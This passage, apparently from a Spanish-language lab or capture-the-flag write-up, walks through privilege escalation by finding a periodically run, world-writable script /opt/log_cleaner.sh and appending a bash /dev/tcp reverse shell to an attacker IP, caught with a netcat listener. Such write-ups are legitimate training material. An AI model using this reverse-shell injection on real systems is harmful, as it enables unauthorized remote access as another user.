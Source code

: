 ## Privilege Escalation

En el directorio **`/opt`** se encontró un script sospechoso llamado **`log_cleaner.sh`** 

![Yw4rf Internship](intership-16.png)

Con el comando **`ps aux`** es posible observar todos los procesos en ejecución con detalles como usuario, PID, uso de CPU/memoria, estado y el comando que los inicio. El comando **`| grep log_cleaner`** permite filtrar los resultados.

Es posible notar que la usuaria **`valentina`** tiene dos instancias del script **`log_cleaner.sh`** en ejecución. Esto se ve en las líneas que muestran **`/bin/sh -c sleep 45; /opt/log_cleaner.sh`** y **`/bin/sh -c sleep 30; /opt/log_cleaner.sh`**. Cada una de estas líneas representa un proceso separado que ejecuta el script con un retraso diferente (45 y 30 segundos) antes de ejecutar el script. Esto permite que el script se ejecute de manera periodica.

Con el comando **`ls -l /opt/log_cleaner-sh`** se busca inspeccionar los permisos, propietario y grupo del archivo en específico: 

| Categoría    | Usuario Propietario (Valentina)  | Grupo(Valentina)       | Otros (Yo, Pedro)      |
| ------------ | -------------------------------- | ---------------------- | ---------------------- |
| **Permisos** | `rwx` (leer, escribir, ejecutar) | `rw-` (leer, escribir) | `rw-` (leer, escribir) |

![Yw4rf Internship](intership-17.png)

El usuario **`pedro`** posee permisos de escritura en el archivo **`log_cleaner.sh`** y con el conocimiento de que el script se ejecuta de manera periodica podriamos concluir que es posible inyectar código malicioso en el script. Como el objetivo es obtener **RCE** de la usuaria **valentina** lo más factible seria utilizar una **Reverse Shell**.

Con el comando **`echo "bash -i >& /dev/tcp/192.168.0.10/1717 0>&1" >> /opt/log_cleaner.sh`**  luego iniciando **`nc -lvnp 1717`** en nuestra terminal local es posible acceder como **`valentina`**

![Yw4rf Internship](intership-18.png)
